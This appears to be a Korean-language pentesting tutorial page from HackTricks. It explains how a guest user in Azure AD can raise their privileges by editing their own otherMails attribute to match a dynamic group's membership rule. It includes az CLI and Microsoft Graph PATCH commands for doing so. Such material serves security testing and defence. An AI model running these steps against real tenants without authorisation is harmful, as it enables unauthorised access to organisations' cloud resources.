 # Az - 동적 그룹 권한 상승

{{#include ../../../../banners/hacktricks-training.md}}

## 기본 정보

**동적 그룹**은 설정된 **규칙** 세트를 가진 그룹으로, 규칙에 맞는 모든 **사용자 또는 장치**가 그룹에 추가됩니다. 사용자 또는 장치의 **속성**이 **변경**될 때마다 동적 규칙이 **재확인**됩니다. 그리고 **새 규칙**이 **생성**되면 모든 장치와 사용자가 **확인**됩니다.

동적 그룹에는 **Azure RBAC 역할**이 할당될 수 있지만, **AzureAD 역할**을 동적 그룹에 추가하는 것은 **불가능**합니다.

이 기능은 Azure AD 프리미엄 P1 라이센스가 필요합니다.

## 권한 상승

기본적으로 모든 사용자가 Azure AD에서 게스트를 초대할 수 있으므로, 동적 그룹의 **규칙**이 **속성**에 따라 사용자에게 **권한**을 부여하는 경우, 이러한 속성을 가진 **게스트**를 **생성**하여 **권한을 상승**시킬 수 있습니다. 게스트는 자신의 프로필을 관리하고 이러한 속성을 변경할 수도 있습니다.

동적 멤버십을 허용하는 그룹 가져오기: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### 예시

- **규칙 예시**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **규칙 설명**: 'security' 문자열이 포함된 보조 이메일을 가진 모든 게스트 사용자가 그룹에 추가됩니다.

게스트 사용자 이메일에 대해 초대를 수락하고 [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView)에서 **해당 사용자**의 현재 설정을 확인합니다.\
안타깝게도 페이지에서 속성 값을 수정할 수 없으므로 API를 사용해야 합니다:
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
## References

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}
